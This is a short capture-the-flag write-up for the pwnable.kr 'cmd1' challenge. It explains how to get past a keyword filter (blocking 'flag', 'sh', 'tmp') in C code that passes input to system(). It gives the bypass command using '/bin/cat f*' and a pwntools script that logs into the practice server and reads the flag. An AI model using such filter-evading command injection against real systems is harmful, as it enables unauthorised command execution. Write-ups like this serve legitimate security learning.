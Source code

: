 # Pwnable.kr: Toddler's Bottle
## cmd1

For this challenge we just need to bypass a simple filter in order to print out the flag. The source code is shown below and shows that the filter only just checks for the strings *"flag"*, *"sh"*, and *"tmp"* within our input argument then if the filter does not catch anything passes our argument to *system( argv[1] )*.

*cmd1.c*
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

Of note, the *cat* command is not filtered out and the *flag* file is the only file within the directory that starts with f. However, since the *PATH* environment variable is changed before calling *system()*, we will have to directly specify the location of the *cat* program, which is usually located at */bin/cat*. Therefore we can just run the following command and get our flag.

```bash
./cmd1 '/bin/cat f*'
```

We can write up a nice little python script to do this for us.

```python
from pwn import *

s = ssh(host='pwnable.kr', port=2222, user='cmd1', password='guest')
p = s.process(["./cmd1", "/bin/cat f*"])
print(p.recvline())
```
Taa daa! We got the flag!

```
[+] Connecting to pwnable.kr on port 2222: Done
[*] cmd1@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './cmd1' on pwnable.kr: pid 226542
mommy now I get what PATH environment is for :)
```

Just another classic reminder of never letting users have direct input to executing shell commands.
